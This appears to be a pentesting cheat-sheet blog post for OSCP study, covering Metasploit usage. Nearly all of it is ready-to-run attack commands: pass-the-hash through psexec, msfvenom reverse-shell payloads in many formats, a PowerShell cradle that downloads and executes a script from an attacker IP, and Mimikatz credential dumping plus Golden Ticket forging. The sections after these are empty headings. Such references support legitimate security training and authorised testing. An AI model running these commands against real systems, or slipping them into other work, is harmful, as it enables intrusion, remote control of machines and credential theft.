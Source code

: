 ```yaml
---
title: "Pentesting Field Guide"
date: 2019-05-01T16:14:05+02:00
categories:
- Offsec
tags:
- Offensive Security
- OSCP
- Pentesting
keywords:
- security
#thumbnailImage: //example.com/image.jpg
---
```

Updated: 05-03-2019
<!--more-->
<!--toc-->
<hr>
# Metasploit

## Pass-The-Hash w/ PSExec
```bash
# This is the most common exploit module you'll be using.
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set RHOST 192.168.1.2
msf exploit(psexec) > set SMBUser Administrator
msf exploit(psexec) > set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > set SMBDomain test.local
msf exploit(psexec) > exploit
```

## MSFVenom Reverse Shells
```bash
# PHP
msfvenom -p php/reverse_php LHOST=10.11.0.61 LPORT=4444 -f raw -o dank.php

# Python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -n 32

# Powershell command
msfvenom -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.11.0.61/shell.ps1')\"" -e x86/unicode_mixed -b "\x00\x0d" --platform Windows -a x86

# C code
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0d" > out.txt

# EXE
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f exe -o shell.exe

# ASP
msfvenom -p windows/shell_reverse_tcp --format asp LHOST=192.168.1.2 -o shell.asp

# Linux
msfvenom -p linux/x86/shell_reverse_tcp exitfunc=thread LHOST=192.168.1.2 LPORT=443 -f elf
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.2 LPORT=4444 -f raw > shell.sh

# Javascript
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw > shell.jsp
```
**Note: Shells with a "/" are staged and ones with a "_" are not. <br>e.g. windows/shell/reverse_tcp vs windows/shell_reverse_tcp**

> A staged payload means that your payload consists of two main components: a small stub loader and the final stage payload. When you deliver windows/shell/reverse_tcp to the target machine, for example, you are actually sending the loader first. And then when that loader gets executed, it will ask the handler (on the attacker’s end) to send over the final stage (the larger payload), and finally you get a shell. - Metasploit Rapid 7

## Jobs & Sessions
```bash
# Listing jobs
msf > jobs

# Killing a job
msf > jobs -k <session-number>

# Killing all jobs
msf > jobs -K

# Listing sessions
msf > sessions

# Upgrading an established session with meterpreter
# Note: Not all sessions can be upgraded.
msf > sessions -u <session-number>

# Run a command directly through a sessions
msf > sessions -c <command>

# Killing a session
msf > sessions -k <session-number>

# Killing all sessions
msf > sessions -K
```

## Multi-Handler
```bash
# Starting a multi-handler
msf > use exploit multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.1.2
msf > set lport 4444
msf > exploit -j -z
```

## Uploading & Downloading Files
```bash
upload /path/in/your/disk/payload.exe exploit.exe
download /path/in/victim/disk
```

## Mimikatz
```bash
load mimikatz
meterpreter > kerberos
meterpreter > ssp
meterpreter > msv
meterpreter > wdigest

- or -
mimikatz_command -f version
mimikatz_command -f samdump::hashes
mimikatz_command -f sekurlsa::searchPasswords

- or -
load kiwi
meterpreter > creds_all
```

## Golden Ticket
```bash
# Load Kiwi first
meterpreter > load kiwi

# Using kiwi to do Golden Ticket
golden_ticket_create -d <domain-name> -k <krbtgt-NTLM> -s <SID-without-RID> -u <User-for-ticket> -t /root/golden.tck

# Apply Golden Ticket
kerberos_ticket_use /root/golden.tck

# List active tickets
kerberos_ticket_list

```

# Reverse Shells

# TTY Shells

# Nmap

# Web

# Databases

# Post Exploitation

# File Transfers

# DNS

# Windows

# Pivoting

# Tcpdump

# Misc
